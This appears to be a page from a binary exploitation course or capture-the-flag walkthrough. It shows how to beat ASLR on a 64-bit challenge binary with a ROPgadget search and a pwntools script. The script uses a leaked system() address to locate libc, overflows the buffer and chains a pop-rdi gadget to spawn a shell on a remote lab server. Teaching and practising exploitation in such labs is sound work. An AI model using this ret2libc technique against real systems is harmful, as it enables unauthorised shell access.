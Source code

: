 ```yaml
---
description: Beating ASLR again, using 64-bit this time.
---
```


# stepup

{% file src="../../.gitbook/assets/stepup.zip" %}

This binary is similar to the last one, so we'll be reusing most of the same techniques. This time, we'll need a way to pass the `/bin/sh` address into `rdi`, which will require a gadget to do this.

### Getting our Gadget

We'll do this the same way that we did it in the ROP chapter. We use `ROPgadget` or `ropper` to search for a gadget that will pop the top of the stack into `rdi`:

{% tabs %}
{% tab title="ROPgadget" %}
```bash
$ ROPgadget --binary stepup | grep "pop rdi"
0x00000000004011db : pop rdi ; ret
```
{% endtab %}

{% tab title="ropper" %}

{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

This is perfect. We'll use this gadget to pop the address of `/bin/sh` into `rdi` before calling `system()`.

### Writing the Exploit

This binary is nearly identical to the last one. We are provided the address of `system()`, so we can just use that directly. Checking `read_in`, we'll notice that it takes `40` bytes to reach the return pointer.

This is everything we need to write the exploit:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./stepup')
libc = elf.libc
p = remote('vunrotc.cole-ellis.com', 6200)

p.recvuntil(b'at: ')
leak = int(p.recvline(), 16)
libc.address = leak - libc.sym.system
log.success(f'LIBC base: {hex(libc.address)}')

g_popRdi = 0x4011db

payload = b'A' * 40
payload += p64(g_popRdi)
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.sym.system)

p.sendline(payload)
p.interactive()
```
{% endcode %}

Running this gets our flag! We beat ASLR in 64-bit, which was no different than in 32-bit. The only difference is that we had to use 64-bit gadgets and addresses.
